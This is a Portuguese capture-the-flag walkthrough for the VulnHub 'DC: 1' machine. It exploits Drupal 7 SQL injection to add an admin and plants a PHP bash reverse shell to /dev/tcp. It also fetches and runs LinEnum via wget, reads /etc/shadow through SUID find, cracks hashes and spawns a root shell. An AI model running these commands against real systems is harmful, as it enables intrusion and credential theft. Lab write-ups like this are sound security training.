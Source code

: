 # DC: 1

Location: [vulnhub.com](vulnhub.com)  
Dificuldade: Easy

## Identificação e Enumeração

O primeiro passo foi encontrar o IP da VM:
```
# netdiscover -i vboxnet0 
```
![netdiscover](img/netdiscover.png)

Tendo o IP em mãos, podemos fazer um portscan simples para identificar os serviços que estão rodando
![nmap](img/nmap.png)  
Segundo o scan, temos um http na porta 80, ssh na porta 22 e um rpc na porta 111. Iniciando pela porta 80, vemos a página principal do drupal, um CMS escrito em PHP. Se olharmos o arquivo robots.txt, encontramos vários diretórios e arquivos que ele desabilita para robôs de busca, um desses arquivos é o UPGRADE.txt que mostra que a versão do drupal é a 7. Essa versão tem uma [falha de SQL injection](https://www.exploit-db.com/exploits/34992) que permite adicionar um administrador.
![drupal](img/drupal.png)  

## Exploração

Fazendo download desse exploit executando para explorar, conseguimos ver que realmente era vulnerável.
```
$ python2 34992.py -t http://192.168.56.101 -u rootpwned -p rootpwned
```
![xpl](img/xpl.png)  
Com o user adicionado, podemos fazer login e tentar conseguir acesso a uma shell, logo na primeira página temos um link dizendo "Add new content", e depois "Basic page", a primeira vista só é possível adicionar conteúdo HTML, mas se formos em Configuration > Text Formats > Add new format > PHP evaluator. Depois disso se voltarmos em Basic Page, vemos que existe uma opção para adicionar trechos PHP, então basta adicionar o seguinte trecho:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.1/1234 0>&1'");
```
E no terminal, colocar a porta 1234 em modo listening:
```
$ nc -vvnlp 1234
```
OBS.: mudar o IP

Aqui vemos a flag1
```
$ cat flag1.txt
```
E se entrarmos em /home/flag4 vemos a flag4
```
$ cat flag4.txt
```
Depois de pegar essas duas flags, executei o LinEnum para automatizar o processo de escalação de privilégios

# PrivEsc

```
$ wget http://192.168.56.1/LinEnum.sh
$ chmod +x LinEnum.sh
$ ./LinEnum.sh
```
![LinEnum](img/linenum.png)  
Temos vários arquivos SUID, entre eles o find que tem o parâmetro -exec para executar comandos do linux, como ele é executado como root, temos acesso a arquivos, como o shadow e a pasta pessoal do root:
```
$ find /etc -name shadow -exec cat {} \;
```
copiando o conteúdo do arquivo para sua máquina local, podemos tentar quebrar com o hashcat ou john:
```
hashcat -a 0 -m 1800 shadow /usr/share/wordlists/rockyou.txt 
```
 no meu caso, só consegui a senha do usuário flag4, mas como o find estava sendo executado como root, podemos ler a flag ou executar o bash como root:
```
$ find /root
```
Vemos que o nome do arquivo é thefinalflag.txt
```
$ find /root/thefinalflag.txt -exec cat {} \;
```
Dessa forma é possível ler a flag, mas se quisermos um shell como root, podemos fazer:
```
$ find /root/thefinalflag.txt -exec sh \;
```